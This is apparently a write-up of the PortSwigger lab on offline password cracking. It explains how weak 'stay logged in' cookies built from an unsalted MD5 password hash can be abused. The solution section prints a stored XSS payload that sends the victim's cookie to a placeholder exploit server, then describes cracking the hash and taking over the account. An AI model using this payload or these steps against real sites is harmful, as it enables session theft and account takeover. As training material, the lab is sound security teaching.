 ## Offline password cracking

**Title:** Offline password cracking. [Go](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

**Description:** 

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

## Preface

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in".

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. Some even use the password as part of the cookie. This approach is particularly dangerous if an attacker is able to create their own account because they can study their own cookie and potentially deduce how it is generated. Once they work out the formula, they can try to brute-force other users' cookies to gain access to their accounts.

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses. 

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as XSS, an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption. 

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in `stay-logged-in` cookie parameter.

### My thought

With Burp running, we logged in to our own account to investigate the "Stay logged in" functionality. We noticed that the `stay-logged-in` cookie is Base64 encoded. In the Proxy > HTTP history tab, going to the Response to our login request and highlight the stay-logged-in cookie, to see that it is constructed as follows: `username+':'+md5HashOfPassword`. We now need to steal the victim user's cookie. Lab description says that the comment functionality is vulnerable to cross site scripting. Go to the exploit server and make a note of the URL. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID: `<script>document.location='//OUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>` On the exploit server, open the access log. There should be a GET request from the victim containing their stay-logged-in cookie. Decode the cookie in Burp Decoder. The result will be `carlos:26323c16d5f4dabff3bb136f2460a943`. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`. Again we 
used [Crackstation](https://crackstation.net/) to crack the password.

![poc_onceuponatime.png](../images/onceuponatime.png)

Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.
